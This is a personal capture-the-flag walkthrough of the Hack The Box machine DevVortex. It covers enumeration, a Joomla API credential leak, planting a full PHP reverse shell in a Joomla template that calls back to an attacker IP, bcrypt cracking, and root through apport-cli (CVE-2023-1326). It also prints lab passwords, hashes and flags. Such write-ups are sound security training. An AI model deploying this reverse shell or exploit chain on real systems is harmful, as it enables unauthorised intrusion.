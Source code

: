 ```yaml
---
Title: DevVortex HTB Machine
Year: "2023"
Difficulty: Easy
share: "true"
---
```


- [[#Reconnaissance|Reconnaissance]]
- [[#Weaponisation|Weaponisation]]
- [[#Delivery|Delivery]]
- [[#Exploitation|Exploitation]]
- [[#Actions on Objective|Actions on Objective]]
## Reconnaissance

- Conducted an NMAP scan 
- `sudo nmap -sC -sV -n -Pn --min-rate 5000 --disable-arp-ping -p- 10.10.11.242 -oA initial`
- Ports 22 and 80 were open
- The webpage appears to be a static page. There's a contact form and a subscription form which are the only two forms of interaction with the page.
- Ran dirsearch and found:
	- css
	- Images
	- Js
	- Index.html
- All of which were 403
- Nginx version is 1.18 which has a listed vulnerability however, deeper investigation showed that there isn't a proven exploit for it. 
- I also looked at the Jquery version but nothing usable.
- Performed a UDP scan but nothing came up.
- I tried a gobuster dns scan however because there's no DNS server it wouldn't work. 
- I then pulled up a walkthrough as I was stumped. It mentioned that gobuster can be used to enumerate VHOSTs as well. 
- Did some quick googling and found this website
	- https://erev0s.com/blog/gobuster-directory-dns-and-virtual-hosts-bruteforcing/
- So used the following command:
	- `gobuster vhost -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discover/DNS/subdomains-top1million-5000.txt`
- This didn't return anything. The walkthrough did find something so a little more digging and I realised the timeout must be too short. Used the following command:
	- `gobuster vhost --timeout 20s --append-domain -u http://devvortex.htb/ -w /usr/share/wordlists/seclists/Discover/DNS/subdomains-top1million-5000.txt`
- This found the vhost dev.devvortex.htb
- Added this to the /etc/hosts file and then browsed to it. It's another website so performed a directory enumeration on it with:
	- `gobuster dir -u http://dev.devvortex.htb/ -w /usr/share/dirb/wordlists/common.txt`
- Of note with this one you need to include the trailing / for the the url to work.
- This returned the folder /administator
- This brings up a login page for Joomla
- Joomla doesn't have a default password, it's set when you set it up so I tried some common combinations with no luck.
- I couldn't find the Joomla version quickly so I fired up Metasploit to see what exploits it had available for Joomla.
- Did a search for Joomla and the Joomla_api_improper_access_checks scanner was recent and looked promising. 
- Loaded the scanner
	- `use auxiliary/scanner/http/joomla_api_improper_access_checks`
	- `set rhosts 10.10.11.242`
	- `run`
- The following information was returned
```
 ID   Super User  Name        Username  Email                Send Email  Register Date        Last Visit Date      Group Names
 --   ----------  ----        --------  -----                ----------  -------------        ---------------      -----------
 649  *           lewis       lewis     lewis@devvortex.htb  1           2023-09-25 16:44:24  2023-11-28 14:35:25  Super Users
 650              logan paul  logan     logan@devvortex.htb  0           2023-09-26 19:15:42                       Registered

[+] Joomla Config
=============

 Setting        Value
 -------        -----
 db encryption  0
 db host        localhost
 db name        joomla
 db password    P4ntherg0t1n5r3c0n##
 db prefix      sd4fg_
 db user        lewis
 dbtype         mysqli

```
- I now have an admin account and password

## Weaponisation

- Logged using the Lewis Account
- Information Recovered
	- Joomla Version: 4.2.6
	- Running PHP 7.4.3
- I haven't worked with Joomla before so I was struggling on where to modify the templates. 
- Found it under System -> Configuration -> Templates -> Administrator Templates
- I created a new PHP template
- Added the following code

```
<?php set_time_limit (0); $VERSION = "1.0"; $ip = "10.10.14.179"; $port = 4242; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { printit("ERROR: Cannot fork"); exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { printit("Error: Cannot setsid()"); exit(1); } $daemon = 1; } else { printit("WARNING: Failed to daemonise.  This is quite common and not fatal."); } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { printit("$errstr ($errno)"); exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { printit("ERROR: Cannot spawn shell"); exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); printit("Successfully opened reverse shell to $ip:$port"); while (1) { if (feof($sock)) { printit("ERROR: Shell connection terminated"); break; } if (feof($pipes[1])) { printit("ERROR: Shell process terminated"); break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { if ($debug) printit("SOCK READ"); $input = fread($sock, $chunk_size); if ($debug) printit("SOCK: $input"); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { if ($debug) printit("STDOUT READ"); $input = fread($pipes[1], $chunk_size); if ($debug) printit("STDOUT: $input"); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { if ($debug) printit("STDERR READ"); $input = fread($pipes[2], $chunk_size); if ($debug) printit("STDERR: $input"); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); function printit ($string) {  if (!$daemon) { print "$string\\n"; } } ?>
```
- Popped a shell with the user as www-data
- Recovered the following information

```
NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```

- I went down a rabbit hole looking at PrivEsc exploits for Linux with no luck. 
- I took a quick look at the Walkthrough and there was a piece of information that I had overlooked from the Credential Leak. 
- Earlier I had looked at the Joomla DB but I didn't look close enough. 
- The user Logan has logged into Joomla. Logan is also a local user with a home directory.
- Pulled the user table
	- `logan / logan@devvortex.htb / $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12`
	- `lewis / lewis@devvortex.htb / $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u`
- Used JTR with brcypt format
- `john --format=bcrypt --wordlist=rockyou.txt hashes`
- Recovered the following password: tequieromucho

## Delivery

- I was able to su to Logan with that password. 
- Recovered the user flag `607620777899361129f7b29ba737074c`
- Running `sudo -l` showed that apport-cli can be run as sudo without a password
- Checking the version and its 2.20 which has a privilege escalation exploit against it
	- CVE-2023-1326
	- https://github.com/advisories/GHSA-qgrc-7333-5cgx
- All you need to do is run the apport-cli command against a crash report
- This is where I got stuck. I think there were supposed to be crash reports on the box but there weren't any. 
- I messed around with an exploit from exploit-db which did all the work for you but it contained a compiled C program and the required libraries weren't on the target box. 
- I found a video walkthrough for this box to see if it showed how to create a crash report.

## Exploitation

- All I had to do was segfault an application
- The command used was `sleep 13 & killall -SIGSEGV sleep` this dropped back to the command line and the next command caused a segfault which generated a crash report in /var/crash
- I was then able to run the following:
	- `sudo /var/bin/apport-cli -c /var/crash/_bin_sleep.100.crash`
- Once the : was on the screen you are able to run commands prefixing them with an !

## Actions on Objective

- The root flag was recovered from /root/root. Txt
	- `72429bb0806bc0bcae75f51b03664050`
